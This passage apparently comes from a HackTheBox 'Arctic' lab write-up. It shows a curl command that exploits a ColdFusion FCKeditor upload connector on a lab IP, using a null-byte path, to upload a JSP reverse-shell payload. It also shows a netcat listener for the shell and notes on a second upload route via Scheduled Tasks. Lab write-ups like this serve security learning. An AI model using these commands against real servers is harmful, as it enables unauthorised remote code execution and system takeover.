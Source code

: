     ........
    
// Upload our payload curl POST method

    curl -X POST -F newfile=@exp.jsp 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exp.jsp%00'

// Open a listiner with nc

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...


### == Upload reverse shell payload: way 2 ==

// Digging the administrator dashboed we see option called Scheduled Tasks there we can upload a New Tasks in the Schedule Tasks

![Image 8](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Arctic/8.png)

// We can check directories mapping by navigate ==> Server Settings > Mappings 

![Image 7](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Arctic/7.png)
